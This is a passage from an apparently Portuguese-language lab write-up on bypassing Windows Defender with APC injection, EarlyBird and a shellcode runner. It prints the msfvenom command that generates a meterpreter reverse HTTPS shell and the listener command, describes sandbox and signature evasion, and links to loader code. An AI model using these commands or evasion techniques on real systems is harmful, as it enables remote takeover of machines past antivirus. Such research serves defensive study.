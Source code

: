 
Agora que já entendemos o funcionamento das variações, vamos explicar um caso de uso, testado em laboratório, para bypass do Windows Defender.

## Evadindo Windows Defender com injeções APC

Nesta seção, iremos tentar realizar o bypass dos módulos de Real Time Protection e Cloud-delivered Protection do Windows Defender. Para isso, testaremos a eficiência dos códigos de APC Injection, EarlyBird e Shellcode Runner (apenas um *wrapper* para rodar shellcode em um EXE), quando utilizados para injetar/carregar um payload do meterpreter, com níveis iguais de ofuscação e evasão de defesas. Os níveis são os seguintes:

- Detecção de ambientes Sandbox para evasão de Antivírus, via `GetSystemTime` (delay de 10 segundos na execução). Caso uma sandbox seja detectada, o processo deverá encerrar;
- Evasão de assinaturas com uso de encoder ROT7 para armazenar o shellcode no injetor. O código do ofuscador ROT7 está disponível no [Github](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Malicious/ShellcodeObfuscator), sendo apenas necessário alterar a variável global "shellcode" para o shellcode gerado.

O Shellcode Runner é nosso teste de controle, e os demais serão colocados à prova com relação à sua efetividade de acordo com a detecção/bloqueio recebidas no laboratório controlado.

> Comando utilizado para gerar shell reversa x64 staged HTTPS do meterpreter:
> - `msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.100.2 LPORT=443 EXITFUNC=thread -f c`
> 
> Comando para criar um listener no meterpreter:
> - `msfconsole -x "use multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_https; set LHOST 192.168.100.2; set LPORT 443; set EXITFUNC thread; exploit"`

### Resultados Shellcode Runner
O código do Shellcode Runner utilizado está disponível [nesse link](https://github.com/midnight-rev/midnight-hackings-artifacts/tree/main/maldev/0x00/Malicious/ShellcodeExecutor). 

Como explicado anteriormente, estamos utilizando o Shellcode Runner apenas como ponto de controle. Caso ele não seja detectado, então nossos níveis-padrão de ofuscação e evasão possivelmente são os responsáveis principais por esse resultado, e não as injeções APC. Caso contrário, temos uma boa probabilidade de que as técnicas que não foram detectadas obtiveram sucesso por causa da injeção realizada.

Tal artefato foi identificado e bloqueado antes mesmo de executar qualquer instrução, evidenciando que apenas as evasões de assinatura e de sandbox existentes não seriam capazes de evadir o Windows Defender.

![1fe26686d7e5d87fdb07420e06a85817.png](img/1fe26686d7e5d87fdb07420e06a85817.png)
